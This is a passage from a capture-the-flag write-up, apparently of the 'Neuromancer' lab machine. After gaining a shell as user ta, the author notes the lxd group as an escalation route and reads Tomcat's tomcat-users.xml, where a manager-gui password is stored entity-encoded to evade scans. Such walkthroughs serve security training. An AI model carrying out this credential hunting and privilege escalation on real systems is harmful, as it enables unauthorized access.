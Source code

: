 There we go, we now have a shell as the user ta on the Neuromancer host from our Attack Host. I can even see a potential priv esc to root already, the lxd group. Let’s keep that in mind for later. Now it’s time to privilege escalate. 

Looking around the ta user’s home directory I found an interesting file. It shows a list of applications running on Neuromancer and their install locations.

```bash
ta@neuromancer:~$ cat ai-gui-guide.txt 
Application for Neuromancer remote access interface includes:

-Maven    - /opt/
-Java jdk - /usr/lib/jvm/
-Tomcat   - /usr/local/tomcat/
-Struts2  - /home/ta/myWebApp/
          - war files are in /root. Update these ASAP to improve security.

Reduce installation of apps to ONLY what's needed, seucure configurations and follow app security best practices.
```

We can see that tomcat is installed under /usr/local/tomcat/. We can go ahead and see if we can access the config file for tomcat to see if we can get some credentials.

```bash
ta@neuromancer:/usr/local/tomcat/conf$ cat tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
Eng.,

Tomcat is still using basic auth. I encoded the password so the AI's security scans don't flag it.

Is this what Bob keeps talking about, "Security by obscurity?"

Ed Occam//Sys.Engineer I//Night City
"Harry, I took care of it" - Llyod Christmas
-->

  <role rolename="manager-gui"/>
  <user username="Lady3Jane" password="&gt;&#33;&#88;&#120;&#51;&#74;&#97;&#110;&#101;&#120;&#88;&#33;&lt;" roles="manager-gui"/>

<!--
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
</tomcat-users>
```
